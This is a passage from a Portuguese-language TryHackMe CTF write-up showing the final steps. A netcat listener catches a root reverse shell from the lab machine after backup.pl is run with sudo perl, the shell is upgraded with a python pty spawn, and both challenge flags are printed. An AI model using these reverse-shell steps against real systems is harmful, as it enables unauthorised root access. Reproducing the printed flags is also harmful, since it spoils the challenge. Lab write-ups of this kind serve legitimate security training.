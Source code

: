 Agora vamos executar o arquivo `/home/itguy/backup.pl` utilizando o binário `perl` como sudo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:57:42
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.133.59] 52552
# python -c 'import pty; pty.spawn("/bin/bash")'
root@THM-Chal:/# whoami
whoami
root
```
---

## **<a id="4"> • Capturar as Flags.</a>**

Agora que somos o usuário `root` vamos capturar as flags.

A flag root está no arquivo `/root/root.txt`.

```bash
root@THM-Chal:/# cd ~
cd ~
root@THM-Chal:~# ls
ls
root.txt
root@THM-Chal:~# cat root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

A flag user está no arquivo `/home/itguy/user.txt`.

```bashroot@THM-Chal:/home# cd /home
cd /home
root@THM-Chal:/home# cd itguy
cd itguy
root@THM-Chal:/home/itguy# ls
ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
root@THM-Chal:/home/itguy# cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

Agora basta inserir as flags no site do TryHackMe para completar o desafio.

![concluido](concluido.png)

---